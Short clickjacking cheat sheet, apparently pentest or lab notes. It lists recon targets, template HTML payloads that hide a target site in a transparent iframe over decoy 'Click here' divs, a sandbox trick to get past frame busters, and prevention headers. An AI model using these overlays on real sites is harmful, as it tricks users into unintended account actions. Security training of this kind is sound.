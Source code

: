 # Tools
- Burp Suite's built in "Clickbandit"
# Reconnaissance
- Pages where account sensitive operations are performed
- Pages where the user could be forced to send data
- If needed, look for ways to prepopulate data with query parameters
# Samples
Single Action - Sample HTML
```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Click here</div>
<iframe src="website-here"></iframe>
```
Add `sandbox="allow-forms"` and/or `allow-scrips` if there is a frame buster script
```html
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

- **Note:** Prefilled form data -  Use a get request with parameters that prepopulate the form if it is possible.

Multistep Action - Sample HTML
```html
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:$top_value1;
		left:$side_value1;
		z-index: 1;
	}
   .secondClick {
		top:$top_value2;
		left:$side_value2;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```
# Prevention
- X-Frame-Options header
- Content Security Policy (CSP): frame-ancestors ['self'|'none'|website]
